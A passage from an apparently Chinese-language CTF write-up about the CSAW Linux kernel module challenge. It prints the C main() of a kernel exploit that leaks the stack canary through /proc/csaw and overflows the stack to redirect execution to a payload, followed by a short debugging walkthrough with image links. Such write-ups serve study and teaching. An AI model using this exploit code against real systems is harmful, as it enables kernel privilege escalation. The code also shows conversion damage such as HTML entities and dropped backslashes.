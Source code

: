 ```
int main(int argc,char *argv[]){
    int fd = open("/proc/csaw",O_RDWR);
    if(!fd){
        printf("errorn");
        exit(1);
    }
    lseek(fd,16,SEEK_CUR);
    char buffer[64] = {0};
    read(fd,buffer,64);
    int i,j;
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
    printf("n");
    char poc[84] = {0};
    memset(poc,0x41,84);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4)) = &amp;payload;
    *((void**)(poc+64+4+4+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,84);
    return 0;
}
```

**1. 调试**

编译运行exploit_final，调试查看执行过程：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01528c9d76062bae73.png)

查看栈顶，发现是我们payload的地址，单步过去查看：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01c230ce5dd27c7988.png)

